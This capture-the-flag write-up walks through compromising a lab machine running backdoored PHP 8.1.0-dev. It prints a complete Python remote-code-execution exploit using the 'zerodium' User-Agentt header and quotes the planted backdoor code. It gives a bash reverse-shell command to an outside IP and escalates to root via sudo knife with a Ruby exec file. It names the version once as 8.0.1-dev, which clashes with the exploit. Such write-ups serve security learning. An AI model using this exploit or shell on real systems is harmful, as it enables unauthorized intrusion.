









## Scanning And Enumeration
First, as usual, we run an Nmap scan to identify open ports and services.



A web server is running on port 80, it's hosting a one-page site with no functionality at all. it was clear to me after some enum that nothing was there, so I figured it's time to fingerprint the server in order to identify the web application software running. First,
I examined the request/response headers for any clues.



There it is, the breakthrough!! the X-Powered-By header shows that the server is running **PHP/8.0.1-dev** which is vulnerable to a recently released RCE exploit.

Here's the exploit:
```python
#Usage: python3 php_8.1.0-dev.py -u http://10.10.10.242/ -c ls

#!/usr/bin/env python3
import requests
import argparse

from requests.models import parse_header_links

s = requests.Session()

def checkTarget(args):
    r = s.get(args.url)
    for h in r.headers.items():
        if "PHP/8.1.0-dev" in h[1]:
            return True
    return False


def execCmd(args):
    r = s.get(args.url, headers={"User-Agentt":"zerodiumsystem(\""+args.cmd+"\");"})
    res = r.text.split("<!DOCTYPE html>")[0]
    if not res:
        print("[-] No Results")
    else:
        print("[+] Results:")
    print(res.strip())


def main():

    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", help="Target URL (Eg: http://10.10.10.10/)", required=True)
    parser.add_argument("-c", "--cmd", help="Command to execute (Eg: ls,id,whoami)", default="id")
    args = parser.parse_args()

    if checkTarget(args):
        execCmd(args)
    else:
        print("[!] Not Vulnerable or url error")
        exit(0)

if __name__ == "__main__":
    main()
```

## A Word About The Exploit

It's important to understand (or at least try to) how an exploit works before using it, and what's its backstory (at least in this case).
We can see in the exploit code that the user-agent header is being set to **zerodiumsystem(\""+args.cmd+"\");** which is weird, until you hear this: someone compromised the server used to distribute the PHP programming language and managed to push an update to the PHP Git server, the update contains code which allows a visitor (meaning someone who can control the user-agent header) to execute code of their choice on the server.

Here's part of the code added by the attacker:
```php
if (strstr(Z_STRVAL_P(enc), "zerodium")) {
    zend_try {
      zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
```

The code looks for the word **zerodium** in the user-agent field and executes whatever PHP code comes after it, in the exploit were using it's **system(\""+args.cmd+"\");** which is used to execute OS commands on the server.

## Gaining Access

it's time to test the exploit and verify that everything works.



Here I executed the exploit with arg **whoami**, so **system("whoami")** will be executed on the server and we get back the result: **james**. The next logical step is to spawn a reverse shell since it's much easier than executing one command at a time through the exploit. To do that I started by running netcat to listen on port 4444:

```console
nc -nlvp 4444
```

Then I executed the following command:

```console
python3 exploit.py -u http://10.10.10.242/ -c "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.53/4444 0>&1'"
```

with **10.10.16.53** being the IP address of my machine. And so a reverse shell was popped.



## Getting The User Flag

The user flag is inside **user.txt** in james' home directory.



## Privilege Escalation

To find the root flag we must gain root access. First I started by looking for SUID binaries using the command:

```console
find / -user root -perm -4000 -print 2>/dev/null
```

Nothing interesting there... So I decided to check out the the commands that user **james** can execute as root with no password needed (since I don't have any).



So **james** can run the command **knife** as root. After searching for a bit and reading knife's [documentation](https://docs.chef.io/workstation/knife/), I noticed that the -c or --config option takes a Ruby file and executes it, which is exactly what we need since that Ruby file will execute as root. So I created a file called **config.rb** which contains:
```ruby
exec "/bin/bash -i"
```



And so we popped a root shell!

## Getting The Root Flag

The root flag is inside **root.txt** in **/root** directory

